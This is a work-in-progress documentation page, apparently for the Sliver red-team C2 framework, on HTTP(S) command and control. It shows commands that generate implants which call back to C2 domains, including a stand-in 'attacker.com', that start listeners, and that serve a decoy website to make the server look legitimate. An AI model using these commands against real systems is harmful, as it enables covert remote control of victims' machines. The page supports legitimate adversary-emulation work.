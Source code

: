 
⚠️ __This page is a work in progress__

# Setup

Sliver supports proxy-aware (auto-detected) C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous. There are separate commands for the listeners but an implant generated with `--http` may attempt to connect over both HTTP and HTTPS (see "under the hood" for more details.
 

## Generate the Implant

Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:

```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```

You can also specify multiple domains, in the event the implant cannot connect to the first it will subsequently attempt to connection to each domain you specified. Subsequent attempts are made based on the `--reconnect` argument (default is every 60 seconds):

```
sliver > generate --http example.com,attacker.com

[*] Generating new windows/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/IMPRESSED_METHANE
```


## Start the Listener 

```
sliver > http
```

```
sliver > https
```

## Static Content

Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command. 

```
websites --website fake-blog --web-path / --content ./index.html add
```


## SSL/TLS Certificates

The `http` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > https --domain example.com --lets-encrypt

```

# Under the Hood



